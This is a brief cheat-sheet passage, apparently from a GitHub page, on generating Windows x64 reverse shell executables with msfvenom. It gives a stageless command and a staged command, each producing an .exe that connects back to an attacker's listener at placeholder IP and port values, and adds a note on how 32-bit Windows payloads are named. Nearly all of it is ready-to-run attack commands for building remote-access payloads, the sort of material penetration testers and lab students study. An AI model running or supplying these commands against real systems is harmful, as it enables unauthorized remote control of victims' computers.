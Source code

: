 Generate a Windows x64 Reverse Shell in an exe format

stageless payload
 ```bash
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o stageless-shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

As staged payloads are denoted with another forward slash (/).
```bash
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

The exception to this slash (/) convention is Windows 32bit targets. 
For these, the arch is not specified. e.g.:
```bash
windows/shell_reverse_tcp
```

